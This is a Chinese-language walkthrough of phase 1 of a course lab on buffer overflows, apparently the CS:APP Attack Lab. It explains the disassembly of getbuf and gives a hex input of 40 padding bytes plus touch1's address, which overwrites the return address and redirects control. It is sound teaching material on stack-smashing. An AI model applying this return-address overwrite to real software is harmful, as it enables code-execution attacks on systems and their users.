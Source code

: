 ### 反汇编`test`

```assembly
Dump of assembler code for function test:
   0x0000000000401968 <+0>:     sub    $0x8,%rsp
   0x000000000040196c <+4>:     mov    $0x0,%eax
   0x0000000000401971 <+9>:     callq  0x4017a8 <getbuf>
   0x0000000000401976 <+14>:    mov    %eax,%edx
   0x0000000000401978 <+16>:    mov    $0x403188,%esi
   0x000000000040197d <+21>:    mov    $0x1,%edi
   0x0000000000401982 <+26>:    mov    $0x0,%eax
   0x0000000000401987 <+31>:    callq  0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:    add    $0x8,%rsp
   0x0000000000401990 <+40>:    retq
End of assembler dump.
```

第2行分配栈帧，第4行调用`getbuf`函数

### 反汇编`getbuf`

```assembly
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
```

分配了40个字节的栈帧，随后将栈顶位置作为参数调用`Gets`函数，读入字符串。

此时，栈帧情况是这样的：（以8个字节为单位）

![image-20220305095612188](https://cdn.jsdelivr.net/gh/Deconx/ImgHosting/Deconx-pic/image-20220305095612188.png)

查到`touch1`代码地址为：`0x4017c0`

由此就有了思路，我们只需要输入41个字符，前40个字节将`getbuf`的栈空间填满，最后一个字节将返回值覆盖为`0x4017c0`即`touch1`的地址，这样，在`getbuf`执行`retq`指令后，程序就会跳转执行`touch1`函数。

### Solution

采用`Write up`推荐方法，创建一个`txt`文档存储输入。并按照`HEX2RAW`工具的说明，在每个字节间用空格或回车隔开。

**`x86`采用小端存储，要注意输入字节的顺序**

我们的输入为：

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
